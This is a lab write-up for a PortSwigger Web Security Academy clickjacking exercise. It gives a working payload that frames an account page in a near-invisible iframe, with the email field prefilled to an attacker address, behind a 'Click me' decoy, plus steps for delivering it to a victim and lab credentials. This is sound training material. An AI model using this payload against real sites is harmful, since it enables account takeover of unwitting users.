

# Clickjacking with form input data prefilled from a URL parameter

[This lab](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input) extends the above `Basic clickjacking with CSRF token protection` lab (above). The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button. 

## Reproduction and proof of concept

1. Log in to the account on the target website.
2. Create payload:
* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `400px` and `80px` - to align the "Update email" button with the "Test me" decoy action.

```text
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 400px;
        left: 80;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, change the position of the `div` element by modifying the `top` and `left` properties of the style sheet.
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.



6. And **Deliver exploit to victim**

## Exploitability

An attacker needs to craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. An account with credentials `wiener:peter` is available. _Note: The victim will be using Chrome so test your exploit on that browser._
